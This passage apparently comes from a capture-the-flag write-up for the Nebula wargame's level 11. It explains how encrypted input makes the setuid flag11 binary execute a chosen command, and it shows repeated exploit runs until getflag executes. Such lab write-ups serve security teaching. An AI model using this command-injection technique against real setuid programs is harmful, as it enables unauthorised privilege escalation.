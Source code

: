 Our **e** script will be encrypted to **d** so that **flag11** will decrypt it back to **e**. The problem is that we dont have room for the null byte to delimit the command to be executed so we depend on the our luck to get a **00** in the right place:

```lang-bash line-numbers 
level11@nebula:~$ python exploit1.py | /home/flag11/flag11
sh: $'e\020Z': command not found
level11@nebula:~$ python exploit1.py | /home/flag11/flag11
sh: $'eP\357': command not found
level11@nebula:~$ python exploit1.py | /home/flag11/flag11
sh: $'e0\247': command not found
level11@nebula:~$ python exploit1.py | /home/flag11/flag11
getflag is executing on a non-flag account, this doesn't count
```
